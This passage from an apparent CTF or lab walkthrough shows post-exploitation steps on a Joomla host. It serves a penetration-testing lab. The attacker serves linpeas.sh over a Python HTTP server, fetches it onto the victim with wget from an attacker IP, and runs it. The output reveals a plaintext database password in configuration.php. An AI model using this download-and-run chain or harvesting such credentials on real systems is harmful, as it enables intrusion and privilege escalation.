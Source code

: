 ```bash
└─$ python -m 'http.server'         
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
{% endraw %}

<br />
Transfer linpeas.sh to the victim machine.

{% raw %}
```bash
bash-4.2$ wget 10.4.119.29:8000/linpeas.sh
wget 10.4.119.29:8000/linpeas.sh
--2025-02-18 09:17:31--  http://10.4.119.29:8000/linpeas.sh
Connecting to 10.4.119.29:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 840082 (820K) [text/x-sh]
Saving to: 'linpeas.sh'

100%[======================================>] 840,082      418KB/s   in 2.0s   

2025-02-18 09:17:34 (418 KB/s) - 'linpeas.sh' saved [840082/840082]

bash-4.2$ chmod +x linpeas.sh
chmod +x linpeas.sh
```
{% endraw %}

<br />
Run the linpeas.sh script.

{% raw %}
```bash
bash-4.2$ ./linpeas.sh
./linpeas.sh

<snip>

╔══════════╣ Searching passwords in config PHP files
/var/www/html/configuration.php:        public $password = 'nv5uz9r3ZEDzVjNu';                                                                                                                                                              
/var/www/html/libraries/joomla/log/logger/database.php:                 $this->password = (empty($this->options['db_pass'])) ? '' : $this->options['db_pass'];
/var/www/html/libraries/joomla/log/logger/database.php:                 $this->password = null;
/var/www/html/libraries/joomla/log/logger/database.php:                 'password' => $this->password,

<snip>
```
{% endraw %}

<br />
From the results of the peas, there appears to be a juicy configuration file.
